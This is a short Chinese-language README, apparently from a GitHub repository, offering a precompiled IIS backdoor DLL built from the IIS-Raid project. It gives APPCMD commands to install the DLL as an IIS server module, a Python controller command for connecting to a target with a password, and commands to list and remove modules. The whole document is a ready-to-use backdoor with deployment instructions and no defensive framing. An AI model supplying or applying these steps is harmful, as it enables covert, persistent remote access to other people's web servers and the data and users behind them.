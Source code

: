 # README


已经编译好了的dll

####  

源码：https://github.com/0x09AL/IIS-Raid

  



####  

直接下载 IIS-backdoor.dll  

Windows server2012 IIS 8 测试

  


## 使用

### 添加模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module  /image:"c:\IIS-Backdoor.dll" /add:true

### 运行python脚本连接IIS-backdoor.dll

python3 iis_controller.py --url target --password SIMPLEPASS

## 另外一些模块有关的命令

### 看一下已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE list modules

### 删除已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE uninstall modules Module
